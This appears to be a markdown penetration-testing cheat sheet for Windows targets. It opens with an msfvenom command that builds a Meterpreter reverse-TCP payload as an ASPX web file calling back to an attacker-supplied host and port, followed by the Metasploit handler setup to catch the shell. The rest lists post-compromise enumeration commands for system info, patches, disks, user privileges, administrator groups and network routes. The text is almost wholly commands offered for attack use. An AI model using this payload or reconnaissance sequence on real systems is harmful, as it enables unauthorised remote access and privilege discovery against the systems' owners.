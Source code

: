 # Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
```

# Windows System Enumeration 
```
systeminfo

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

#Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#check route table
route print
```
